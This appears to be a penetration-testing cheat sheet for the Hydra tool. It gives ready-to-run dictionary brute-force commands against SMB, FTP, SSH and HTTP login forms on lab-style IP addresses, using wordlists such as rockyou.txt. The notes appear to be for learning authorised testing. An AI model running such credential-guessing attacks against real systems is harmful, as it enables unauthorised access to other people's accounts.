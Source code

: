 
# Overview
Brute force logins

# Options
- -l/L : username/user File
- -p/P : password/password File

---

# Service Examples

## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`
*lower* case to give string and *upper* case to pass in file
- -l admin : username
- -P /wordlist.txt : pass in wordlist

---

## FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---

## SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

---

## Http-Form
http-post-form "login page : post data : error check"
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!" -s 80
```
